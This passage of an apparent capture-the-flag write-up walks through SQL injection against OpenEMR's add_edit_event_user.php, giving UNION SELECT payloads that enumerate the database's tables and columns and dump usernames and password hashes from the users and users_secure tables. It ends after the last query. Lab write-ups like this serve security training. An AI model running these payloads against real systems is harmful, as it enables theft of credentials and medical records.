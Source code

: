 We managed to get the list of tables in the openemr database, but it looks to be incomplete as there seems to be a limit to how much can be shown in the field. 

Let's try refining our query to look for something a bit more obvious, like seeing if there is a user table available. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(table_name),2,3,4,5 from information_schema.tables where table_schema="openemr" and table_name like 'user%' -- -
```

![3a9e4273bdfdba2ef003b196d0ad8012.png](/images/htb-cache/db8b3a418737490c9f27ac3a3be4fd53.png)

There's two interesting tables here that we need to check out - users and users_secure.

Let's start by enumerating the users table. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(column_name),2,3,4,5 from information_schema.columns where table_schema="openemr" and table_name="users" -- -
```

![043878073d5bb78008aec2362087c2a9.png](/images/htb-cache/0bf5a7f7d1a64387b128ddb861569823.png)

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(username),group_concat(password),3,4,5 from openemr.users -- -
```

![ccc60dd04183ed78a11d1c3439c3a593.png](/images/htb-cache/777db17cde884e05bf9a0153bc1e692a.png)

Doesn't seem like we have a password. Let's move on to the users_secure table. 

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(column_name),2,3,4,5 from information_schema.columns where table_schema="openemr" and table_name="users_secure" -- -
```

![a7851a926b499ce34ef7fc1832316747.png](/images/htb-cache/44c2270f1ce5411b8bc2415f41503144.png)

```sql
/add_edit_event_user.php?pid=1' UNION SELECT group_concat(username),group_concat(password),3,4,5 from openemr.users_secure -- - 
```
